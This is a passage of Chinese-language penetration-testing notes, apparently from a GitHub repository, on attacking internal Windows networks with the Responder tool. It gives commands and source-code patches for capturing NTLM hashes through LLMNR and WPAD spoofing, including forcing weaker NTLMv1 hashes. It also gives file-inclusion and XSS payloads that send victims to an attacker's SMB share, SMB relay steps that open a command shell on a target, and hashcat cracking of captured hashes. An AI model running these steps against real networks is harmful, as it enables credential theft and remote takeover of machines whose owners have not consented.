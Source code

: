 ### Responder/LLMNR毒害
 #### SMB协议截获
	内网中间人攻击脚本，kali内置
	监听网络接口
	>responder -I wlan0(eth0)
	指定某台机器或网段：修改/etc/responder/Responder.py中RespondTo参数。
	网段中有认证行为会捕获NTLMv2 hash
![image](/assets/Pentest_Note/master/img/429.png)

	当访问一个不存在的共享时修改配置文件来解析
	Xp
	修改/usr/share/responder/servers/SMB.py定位到errorcode修改为\x71\x00\x00\xc0，删除掉/usr/share/responder/Responder.db
![image](/assets/Pentest_Note/master/img/430.png)

	XP时使用\\cmd\share形式访问共享输入密码达4次会断开连接。
	定位到
![image](/assets/Pentest_Note/master/img/431.png)

	修改self.ntry != 10
	Win7以上
	修改/usr/share/responder/servers/SMB.py定位到##Session Setup 3
![image](/assets/Pentest_Note/master/img/432.png)

	删除掉and GrabMessageID(data)[0:1] == "\x02"，删除掉/usr/share/responder/Responder.db
	修改后可以进行解析，捕获hash，否则会报错误64
![image](/assets/Pentest_Note/master/img/433.png)

	强制截取NTLMv1 hash，修改/usr/share/responder/packets.py，定位到以下参数，修改为\x15\x82\x81\xe2，修改Conf文件设置Challenge为16位固定值。
![image](/assets/Pentest_Note/master/img/434.png)
![image](/assets/Pentest_Note/master/img/435.png)
![image](/assets/Pentest_Note/master/img/436.png)
 #### WPAD代理欺骗
	>responder -I eth0 -v -F 
	F参数即可开启强制WPAD认证服务抓取 hash，访问IE或重启电脑即可发送欺骗认证获得hash。
![image](/assets/Pentest_Note/master/img/437.png)
![image](/assets/Pentest_Note/master/img/438.png)

	重启也可以抓到
![image](/assets/Pentest_Note/master/img/439.png)
 #### Web漏洞
	内网中使用文件包含漏洞和XSS
	>Responder -I eth0 -v
	http://10.1.1.1/file.php?file=\\10.1.1.12\share
	http://10.1.1.1/xss.php?article=<img src=\\10.1.1.12\xx>
 #### SMB中继攻击
	修改/etc/responder/Responder.conf文件，配置smb和http为Off，分别开启两个对话框，使用F参数启用WPAD欺骗浏览器，使用/usr/share/responder/tools中的MultiReplay.py进行中继攻击获得目标cmdshell。
	>Responder -I eth0 -v -F
	>python MultiReplay.py -t 192.168.0.115 -u ALL
![image](/assets/Pentest_Note/master/img/440.png)
![image](/assets/Pentest_Note/master/img/441.png)
 #### NTLMv2Hash破解
	使用hashcat破解 -m 5600为NTLMv2类型
	>hashcat -m 5600 pass.txt wordlists.txt
![image](/assets/Pentest_Note/master/img/442.png)
